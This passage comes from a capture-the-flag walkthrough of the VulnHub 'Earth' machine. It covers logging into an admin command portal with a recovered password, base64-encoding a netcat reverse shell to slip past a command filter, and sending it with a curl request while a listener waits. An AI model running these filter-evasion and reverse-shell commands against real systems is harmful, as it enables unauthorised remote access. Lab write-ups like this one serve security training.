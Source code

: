 From the image above we can see that the last message on the home page was transformed into something reasonable hence the assumption that the content of testdata.txt was the encryption key becomes a fact. This text appears to be the repetition of the string **earthclimatechagebad4humans**. This was our last hint from the testingnotes.txt file. Penetration testing involves conducting multiple trials to assess security. Let's test whether this string is used as the password for the admin portal.
![](/assets/img/posts/walthrough/vulnhub/2024-09-11-earth/admin-login.png){: .center}

## Exploitation
As shown above the string **earthclimatechagebad4humans** was indeed the terra's password. This presents us with an interface that appears to run system commands. Let's try the **whoami** command.
![](/assets/img/posts/walthrough/vulnhub/2024-09-11-earth/whoami-command.png){: .center}

This has successfully executed the **whoami** command. Unfortunately for us, when we insert a reverse shell command it returns an error saying that remote connections are forbidden. This system appears to filter out commands. We can bypass this filter by base64 encoding our command.
```bash
┌──(pentester㉿kali)-[/VulnHub/Earth/Scan/Web]
└─$ echo 'nc 10.0.2.15 8000 -e /bin/bash' | base64
 bmMgMTAuMC4yLjE1IDgwMDAgLWUgL2Jpbi9iYXNo
```
Next, we can start a listener on our attack host using Netcat
```bash
┌──(pentester㉿kali)-[/VulnHub/Earth/Scans]
└─$ nc -lvnp 8000
listening on [any] 8000 ...
```
Finally, we can send the payload to the target. This payload will decode the reverse shell command during execution and pipe it to the bash shell  which will execute this command.
```bash
┌──(pentester㉿kali)-[/VulnHub/Earth/Scans/Web]
└─$ curl -s  http://earth.local/admin/ -X POST -H 'Content-Type: application/x-www-form-urlencoded' -H 'Cookie: csrftoken=ULMgg6OATd9eLgwnx8Sbmj4a9RoqNmwfe4x6y1d3CZM02ikioy8ZanjOAQ5Ze5xY; sessionid=tjnd6cq8eccdg4hztnc6u5xin8pen4oa' -d 'csrfmiddlewaretoken=tyogIfNjcOEP1Bdmw9A5wRvEQLyjN5q8NR960acMVAhBiD1hnzQTkVKihKfSeOrR&cli_command=echo+bmMgMTAuMC4yLjE1IDgwMDAgLWUgL2Jpbi9iYXNo|base64+-d|bash'
  
```
If we go back to our listener we can see that the target connected to us and we can test this with the **whoami** command.
```bash
┌──(pentester㉿kali)-[/VulnHub/Earth/Scans]
```